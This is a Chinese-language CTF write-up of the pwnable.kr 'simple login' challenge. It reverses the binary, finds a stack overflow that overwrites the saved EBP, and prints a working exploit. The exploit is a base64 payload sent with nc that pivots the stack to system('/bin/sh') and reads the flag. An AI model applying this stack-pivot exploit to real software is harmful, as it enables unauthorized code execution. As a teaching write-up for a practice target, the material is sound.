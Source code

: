 ```yaml
---
title: pwnable.kr-simple login
date: 2018-02-25 22:24:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
其实是一道很简单的栈溢出题目，但是我在分析代码的时候却浪费了不少时间，主要是没注意linux下`base64`命令在编码时会主动加上换行符`\n`的base64编码，导致逻辑分析错误，教训啊。
# 分析
还是得逆向`login`
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [sp+18h] [bp-28h]@1
  __int16 v5; // [sp+1Eh] [bp-22h]@1
  unsigned int v6; // [sp+3Ch] [bp-4h]@1

  memset(&v5, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &v5);
  memset(&input, 0, 0xCu);
  v4 = 0;
  v6 = Base64Decode((int)&v5, &v4);
  if ( v6 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```
```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [sp+14h] [bp-14h]@1
  char *s2; // [sp+1Ch] [bp-Ch]@1
  int v4; // [sp+20h] [bp-8h]@1

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```
贴上主要函数的反编译代码。主要逻辑是通过`auth`函数的判断可以给你个shell。分析`auth`函数可以知道，正常途径需要md5值跟`f87cd601aa7fedca99018a8be88eda34`相等才能通过判断，但是这个md5值计算的是栈上的数据，这里没有办法控制，而且这个md5值网上也没有破解到明文，所以此路不通。
继续程序逻辑可以发现，输入的字符串会经过`Base64Decode`解码，这个函数和上一题[md5 calculator](http://www.ktstartblog.top/index.php/archives/146/)算法一样，也存在溢出，但是这里由于限制的输入字符串只有30字节，只能从变量`v4`溢出到`v5`，作用不大。接下来程序限制了解码后的明文长度只能小于或等于`0xc`，然后明文会被复制到数据段的`input`变量中，进入`auth`函数内部可以发现这个函数调用`memcpy(&v4, &input, a1);`，然而`v4`实际上只有8个字节大小。如果明文最大12个字节的话，那么存储`ebp`的栈空间就会被覆盖。再看看`main`函数最后有一个`leave`指令，这个指令相当于`mov esp，ebp;pop ebp`，而这个`ebp`就是前面可以控制的栈空间中的`ebp`。那么之后函数返回时就能控制返回地址。
整理下思路：
1. 明文最大长度12字节，最后4字节填入存储执行的地址的地址在减4字节（还有`pop ebp`操作）如`input`地址
2. 明文前4字节填入要执行的地址，如`system('/bin/sh');`反汇编可以看到地址是`0x08049284`

exp如下
```bash
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.b64encode('\x84\x92\x04\x081234\x3c\xeb\x11\x08')
'hJIECDEyMzQ86xEI'
>>> quit()
```
```bash
root@1:~/桌面/test$ nc pwnable.kr 9003
Authenticate : hJIECDEyMzQ86xEI
hash : 7e562c3d896c061642d4d64162cbf94e
ls
flag
log
simplelogin
super.pl
cat flag
control EBP, control ESP, control EIP, control the world~


```
另外需要注意的是`auth`函数是没有`stack canary`保护的，所以可以放心覆盖。
# 总结
难度不难，但是要注意细节。